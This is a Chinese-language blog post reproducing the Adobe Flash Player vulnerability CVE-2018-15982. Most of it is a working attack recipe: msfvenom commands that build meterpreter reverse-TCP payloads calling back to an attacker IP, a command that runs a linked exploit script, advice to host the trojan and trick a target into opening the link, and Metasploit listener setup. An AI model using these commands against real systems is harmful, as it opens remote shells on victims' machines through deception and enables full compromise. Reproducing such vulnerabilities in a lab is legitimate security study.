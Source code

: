 ```yaml
---
title: CVE-2018-15982 Adobe Flash Player 漏洞复现
tags: 
- CVE
- 漏洞
categories:
- 网络安全
top_img: https://images.pexels.com/photos/1089440/pexels-photo-1089440.jpeg?auto=compress&cs=tinysrgb&dpr=1&w=500
cover: https://images.pexels.com/photos/1089440/pexels-photo-1089440.jpeg?auto=compress&cs=tinysrgb&dpr=1&w=800
date: 2020/3/26 23:00:00
---
```


# 漏洞介绍
Adobe已发布适用于Windows，macOS，Linux和Chrome OS的Adobe Flash Player安全更新。这些更新解决一个关键的Adobe Flash Player的漏洞和一个重要的Adobe Flash Player的安装程序的漏洞。成功利用可能导致当前用户的上下文中的任意代码执行和权限提升。

# 漏洞演示

<iframe height="470" width="800" src="//player.bilibili.com/player.html?aid=370087987&bvid=BV1zZ4y1j7FS&cid=173934092&page=1" scrolling="no" border="0" frameborder="no" framespacing="0" allowfullscreen="true"> </iframe>

# 木马制作

Poc: <https://github.com/yangb92/CVE-2018-15982_EXP>
```
msfvenom -p windows/meterpreter/reverse_tcp_rc4 LHOST=192.168.1.22 LPORT=4444 -f raw>86.bin 
msfvenom -p windows/meterpreter/reverse_tcp_rc4 LHOST=192.168.1.22 LPORT=4444 -f raw>64.bin
python CVE_2018_15982.py -i 86.bin -I 64.bin
```
将木马文件托管在http服务器上面, 将链接分享给目标,诱导目标打开.

# MSF监听
```
msfconsole

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp_rc4
set LHOST 192.168.1.22
exploit
```
